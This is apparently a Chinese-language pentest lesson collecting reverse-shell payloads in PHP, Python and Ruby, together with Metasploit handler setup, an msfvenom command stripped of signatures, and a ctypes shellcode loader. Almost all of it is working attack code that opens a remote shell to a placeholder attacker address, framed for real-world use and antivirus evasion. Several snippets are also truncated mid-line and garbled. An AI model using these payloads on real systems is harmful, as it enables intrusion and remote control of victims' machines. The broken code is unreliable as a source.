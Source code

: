 ### 10.6 基于第十课补充 payload（一）

在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 PHP，python，ruby。

ps:在线代码高亮：

    http://tool.oschina.net/highlight
    
        

**1、php-payload**

    
```
msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.1.107
    LHOST => 192.168.1.107
    
        

    <?
    php error_reporting(0); $ip = 'x.x.x.x'; $port = 53; if (($f = 'stream_socket_client') && is_callable($f)) {
    {$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_
    strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s;
    $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('s
    >
    
```

        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162104264.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    <?php
    $sock=fsockopen("xx.xx.xx.xx",xx);exec("/bin/sh -i <&3 >&3 2>&3");
    ?>
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162119964.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**2、python-payload**

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.1.107
    LHOST => 192.168.1.107
    
        

    import socket,struct,time
    for x in range(10):
        try:
            s=socket.socket(2,socket.SOCK_STREAM)
            s.connect(('x.x.x.x',xx))
            break
        except:
            time.sleep(5) l=struct.unpack('>I',s.recv(4))[0]
    d=s.recv(l)
    while len(d)<l:
        d+=s.recv(l-len(d))
    exec(d,{'s':s})
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100916214876.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",xx));
    i"]);
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162206114.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    import socket import subprocess
    s=socket.socket()
    s.connect(("xx.xx.xx.xx",xx))
    while 1:
      p = subprocess.Popen(s.recv(1024),
                          shell=True,
                          stdout=subprocess.PIPE,
                          stderr=subprocess.PIPE,
                          stdin=subprocess.send(p.stdout.read() + p.stderr.read()
                          )
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162219427.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**删除特征：**

    root@John:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.8.8.8 LPORT=88 -f c | tr -d '"' | tr -d '\n'
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F202010091622400.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    from ctypes import *
    
    reverse_shell = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72
    micropoorshell = create_string_buffer(reverse_shell, len(reverse_shell))
    shellcode = cast(micropoorshell, CFUNCTYPE(c_void_p))
    shellcode()
    
        

**3、ruby-payload**

    require 'socket';c=TCPSocket.new("xx.xx.xx.xx", x);$stdin.reopen(c);$stdout.reopen(c);$stderr.reopen(c);$stdi
    (IO.popen(l,"rb"){|fd| fd.each_line {|o| c.puts(o.strip) }}) rescue nil}
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162343921.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    require 'socket';f=TCPSocket.open("xx.xx.xx.xx",xx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162357197.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    require 'socket';c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100916241045.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print
    io.read}end
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162422580.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *